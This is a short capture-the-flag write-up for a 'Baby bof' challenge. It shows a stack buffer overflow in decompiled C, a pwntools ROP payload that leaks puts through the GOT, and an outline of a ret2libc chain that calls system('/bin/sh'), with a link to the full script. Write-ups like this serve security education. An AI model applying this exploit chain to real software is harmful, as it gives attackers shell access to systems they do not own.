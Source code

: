 # Baby bof

Bufferoverflow bug in the **vuln()** function

```c
int vuln()
{
  char s[10]; // [rsp+6h] [rbp-Ah] BYREF

  puts("plz don't rop me");
  fgets(s, 256, _bss_start);
  return puts("i don't think this will work");
}
```

No **win()** function here, and no **system()** here, but still we can call shell with **ret2libc**

First we need to leak the address of libc
```py
payload = b'A'*10
payload += p64(0xdeadbeef)
payload += p64(pop_rdi)
payload += p64(elf.got['puts'])
payload += p64(elf.sym['puts'])
payload += p64(elf.entry)
p.sendline(payload)
```

That payload same as 
```c
puts(puts_GOT());
```

So program will print address of **puts** and back to **_start** 
![LIBC](babybof.png)

Cool now we have libc leak, next step we need to calculate the base address of libc
U can find the offset in [Here](https://libc.blukat.me/)

After that u can make rop to call `libc.system("/bin/sh")`


[Full Sript](https://github.com/L29/Binary-Writeup/blob/main/dCTF/Baby_bof/exploit.py)

![Flag](babybof2.png)
